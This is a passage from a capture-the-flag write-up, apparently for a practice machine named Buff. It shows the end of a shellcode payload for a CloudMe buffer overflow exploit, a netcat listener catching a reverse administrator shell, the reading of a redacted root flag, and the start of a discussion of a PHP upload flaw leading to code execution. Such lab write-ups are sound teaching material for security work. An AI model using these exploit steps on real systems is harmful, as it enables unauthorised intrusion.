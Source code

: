 ```
payload += b"\xb3\x9d\x49\xbc\xb6\xda\xcd\x2d\xcb\x73\xb8\x51"
payload += b"\x78\x73\xe9" 

```

I changed the payload type (and included `LHOST` and `LPORT` needed for this payload), and I used the `-v payload` to set the output payload variable name so I can just paste it into the script.

### Shell

Now I just run the exploit through the tunnel with `nc` waiting (work with either legacy Python or Python3):

```

root@kali# python3 cloudme-bof.py 

```

At `nc`, I get an administrator shell:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.198.
Ncat: Connection from 10.10.10.198:49683.
Microsoft Windows [Version 10.0.17134.1550]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

```

And I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
0e2cf4e5************************

```

## Beyond Root

### Gym Exploit

The vulnerability here is an unauthenticated upload that leads to remote code execution. Basically, I can upload PHP code into a place where it is executed. The comment block at the top of the script lays out nicely how this works in seven bullet points. I thought it might be useful to step through each of these.
